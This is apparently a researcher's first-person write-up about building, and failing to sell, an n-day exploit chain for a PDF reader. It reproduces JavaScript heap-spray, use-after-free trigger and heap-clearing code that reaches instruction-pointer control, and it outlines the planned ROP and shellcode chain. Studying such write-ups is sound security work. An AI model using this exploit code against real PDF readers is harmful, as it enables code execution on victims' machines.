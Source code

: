# HackerLife.exe
Write up about an exploit  chain failed to be fully weaponised and experience when trying to tryin to sell your first nday.

So what this story about ? Our quote on qute "life experience in 2025 as young security researcher trying to make in in a ever changing and compilated environment". When 2025 hit some even happened in my life which propmted me to try to somehow make some cash. Unf. to this day this was never the case since i faile misserably as you'll see. Such the team decided to try to utilize our skills. We were contacted by a person on a ssn. When this person reach us they presented themselves as an upcoming start-up which was in cybersecurity from a part of the world this country being part of mnna, so a nato friend(tring not to leave to many details about this person as they are irrelevant anyway). They reached us because they were looking for a person to help imrpove their product a metasploit preium framework sorts of, so basically they were in need of ndays for their framework. To which we replyed happly that we will help again a certain ammount of money.(again irrelevant as still the transaction never came to be). Such we propposed a series of potentials cve we tought we could use to produce an exploit in a month and a-half. you can take a look at the proposed product here.[catalogue_final.pdf](https://github.com/user-attachments/files/19785140/catalogue_final.pdf) . Anyway here comes the first important lesson for youngsters who wanna dabble in cyber. When choosing a cve do take like 3-4 weeks to review the cve prior to starting the research. In the said catalogue you'll be able to find that one of the exploits was a chain , a pdf one.... We looked briefly only at the descriptions ran the provided poc once or twice and took a look at what cwe was and decided that hey we might be able to turn this into a fully weaponsied exploit. We couldn't be further from the truth.
Becasue sometimes life happens i had an exam to pass and we decided that we will get started on working on the actual exploit on 20th of february.
20th of february comes and we start working on the exploit. We start with something "relatively easy"(please do note the sarcasm), we start wtih CVE-2024-25648. But before we even got started working on that we started to try to understand the structure of pdfs or better said just get a little overview into them as you'll see later in the document we'd have to crash a "propper document" with different actions that were triggered when certain events happened. Such we can give a shoutout to ange albertini for documenting this shit properly. Here are the resouces we used to understand the structure of pdf https://www.youtube.com/watch?v=q6KgFezu8tw , https://www.youtube.com/watch?v=8g6G96nn7Mo , https://www.youtube.com/live/xZPK04a5ltc . Why is even that relevant ? Honestly i forgot but we decided that for this chain one part of the exploit will run in background whenever you open the pdf and the second part whenever you close it. Ideely the exploit was supposed to exploit CVE-2024-25648 when closed and CVE-2024-25575 and opened. To break it down in order for us to be able to create a precise memory layout for the uaf precise exploitation we needed and info-leak for computing addresses for ROPgadgets. Such the flow of the exploit would have been: type conf ->infoleak --> gc to clear the layout of heap --> spray precise -->uaf -->eip control -8 --> stackpivot -->ropchiain --> sc --> pop calc.exe . At the current stage you only have the uaf and heap spray  and theoretically(not tested) 2 proposed ropchains. Now withouth going too much into details one crucial part of any uaf exploitation is obviously an "allocator primitive". What is that ? Simply put something that allows you to have control over the content and size you desire to allocate. Now we were lucky enough that there were other people who did some reascher on this topic. Such we used https://hacksys.io/blogs/foxit-reader-uaf-rce-jit-spraying-cve-2022-28672#jit-spraying-to-rescue-bypassing-dep-aslr-at-once as a starting base. So we knew we had to start our research based on something like 
function reclaim(size, count){
3    for (var i = 0; i < count; i++) {
4        sprayArr[i] = new SharedArrayBuffer(size);
5        var rop = new DataView(sprayArr[i]);
6
7        // control value for - call dword ptr [eax+74h]
8        // first dword is pointer to the shellcode
9        rop.setUint32(0, 0x41414141);
10
11        for (var j = 4; j < rop.byteLength/4; j+=4) {
12            rop.setUint32(j, 0x42424242);
13        }
14    }
15} but we didnt know what to do exactly. So we went back read the advisory and than tried to find the size of vulnerable object. How did we do that ? honestly by pure luck. We had some hooks inserted into RlptFreeHeap Math.atan, Math.sin and finally RtlAllocateHeap.(sorry they are junking during the research we somehow lost them). Insert picture here with trace of objects. So after looking for some pattern in memory allocation we concluded that the size of vulnerable object was 0x70. Now what we did further was to try to reclaim the object.Generally speaking when exploiting uaf there are 2 prerequisite for you to controll said object:1. know the size and 2.be able to place a newly allocation in between the free and reuse, and that's what we did. As you can see 
function uaf() { 
  // prepare heap
  var count = 1000;
  var tArr = [];
  
  start("enabling the heap hook");
  app.activeDocs[0].addField('aaaa', "combobox", 2, [13,8,0,19] ) ;
  
  getField('aaaa').setAction("Format",'delete_pages();');
 
  app.activeDocs[0].addField('aaaa', "combobox", 0, [13,8,0,19] ) ;

  end("disabling the heap hook");
}

function delete_pages() {
  app.activeDocs[0].deletePages();
  //reclaim(theSize,0x10000);

  reclaim(theSize,0x300,sprayArr2);

  app.activeDocs[0].deletePages();
  reclaim(theSize,0x300,sprayArr2);

}

we place in between the deltepages which what to see delete stuff , we put re allocation of our said object. And lord behold inser image of 41414141 EIP control. Now we were talking earlier about an exploit flow or the exploit arhitecture stand point, and we mentioned a fact that we wanted to call gc to clear the heap. Well withouth going into detail too mmuch for people who are not familiar on how once could call gc to clear his heap state, one method cause there are many is to create a very big object a few times and he would be done.
Now the actual implementation of this was this one function gc(){
	const maxMallocBytes = 128 * 0x100000; //check if this is true ????
	for(var i = 0 ; i < 3 ; i++){
		var x = new SharedArrayBuffer(maxMallocBytes);
	}
}

nothing new under the sun just wanted to point a quick fact about the implementation of this thing
